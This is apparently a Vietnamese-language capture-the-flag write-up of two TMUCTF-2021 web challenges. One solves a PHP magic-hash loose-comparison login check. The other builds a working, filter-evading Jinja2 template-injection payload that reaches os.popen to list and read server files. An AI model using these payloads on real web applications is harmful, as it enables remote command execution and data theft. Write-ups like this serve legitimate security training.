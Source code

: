 # TMUCTF-2021 (Web challenges)
## Login
Ban đầu mình thử với một vài payload sqli nhưng không phải.

Thử check file robots.txt chúng ta sẽ có được source code:
```
if (isset($_GET["password"])) {
    if (hash("md5", $_GET["password"]) == $_GET["password"]) {
        echo "<h1>Here is the flag:</h1>" . $flag;
    } else {
        echo "Try harder!";
    }
}
```

Bài này thực hiện so sánh password do chúng ta nhập với md5 hash của nó. Nếu như kết quả giống nhau thì sẽ echo ra flag.

Lợi dụng Loose comparation trong PHP để giải quyết vấn đề này.

password: 0e215962017

### Flag: TMUCTF{D0_y0u_kn0w_7h3_d1ff3r3nc3_b37w33n_L0053_c0mp4r150n_4nd_57r1c7_c0mp4r150n_1n_PHP!?}

## Injection
### Dạng bài: server-side templete injection 

Điều khó khăn nhất trong bài này chính là đề bài không cung cấp blacklist cho chúng ta nên chúng ta không thể soạn một payload hoàn chỉnh ngay được

Sau một vài lần thử thì mình có thể biết được: các kí tự: '_', request, '.','[' đều bị filter:

* `__` có thể được thay thế bằng `\x5f\x5f`

* `.` và `[` có thể sử dụng `|attr để thay thế`
 
 Hiển thị tất cả class:
 ```
 {{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()}}
 ```
 Đến đây có thể tìm được ví trí của class mình cần, mình tìm được vị trí của class `os._wrap_close` là 132
 
 Get class `os._wrap_close`:
 ```
 {{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(132)
 ```
 
 Cứ lần lượt như vậy mình có được payload:
 
 ```
 {{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(132)|attr('\x5f\x5finit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
 ```
 Nhưng đây chưa phải là payload cuối cùng mình có thể sử dụng vì os, popen và khoảng trắng đều bị filter:
 
 * Thay `'os'` bằng `'\x6f\x73'`
 
 * Thay `'popen'` bằng `'pop''en'`
 
 * Thay khoảng trằng băng ${IFS}
 
 Finally, chúng ta đã có thể excute được command.
 
 ```
 {{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(132)|attr('\x5f\x5finit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('\x6f\x73')|attr('po''pen')('cat${IFS}/opt/tmuctf/*')|attr('read')()}}
 ```
 
 Trong bài này việc tìm flag cũng có đôi chút khó khăn, flag không nằm trong những file 'flag.txt' hay nằm sẵn ở dạng TMUCTF{}.
 
 Mình mất khá nhiều thời gian để tìm được path chứa flag. Cuối cùng mình thử cat file help thì được hint là flag là file cuối cùng được upload trong /opt/tmuctf/
 
 `ls${IFS}-t` để sắp xếp file theo thời gian
 
 Sau đó cat file và base64-decode nội dung sẽ được flag:
 
 ### Flag: TMUCTF{0h!_y0u_byp4553d_4ll_my_bl4ckl157!!!__1_5h0uld_h4v3_b33n_m0r3_c4r3ful}
 
 



